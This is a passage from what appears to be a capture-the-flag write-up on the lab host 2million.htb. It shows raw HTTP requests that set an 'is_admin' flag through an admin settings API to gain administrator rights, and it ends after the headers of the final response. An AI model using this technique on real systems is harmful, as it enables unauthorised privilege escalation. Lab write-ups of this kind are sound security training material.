 This time, it returns a message that there's a missing parameter : `email`.
Let's add my email as data and try again.

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 31

{"email":"bokchee@bokchee.com"}

===

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 20:58:21 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 59

{"status":"danger","message":"Missing parameter: is_admin"}
```

Again, it says `is_admin` is missing. I guess that the type of it would be Boolean.
Let's add it.

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 51

{"email":"bokchee@bokchee.com",
"is_admin":"True"}

===

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 20:59:33 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 76
```